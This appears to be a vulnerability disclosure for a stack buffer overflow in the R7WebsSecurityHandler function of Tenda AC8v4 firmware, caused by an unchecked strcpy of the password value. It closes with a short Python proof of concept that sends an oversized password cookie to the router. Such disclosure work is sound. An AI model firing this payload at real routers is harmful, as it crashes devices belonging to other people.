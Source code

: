 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3683.html

## Affected version

AC8v4 V16.03.34.09

## Vulnerability details

The Tenda AC8v4 V16.03.34.09 firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v19` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v19, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v19` array, triggering this security vulnerability.

![image-20240319133933045](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133933045.png)

![image-20240319133855725](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133855725.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)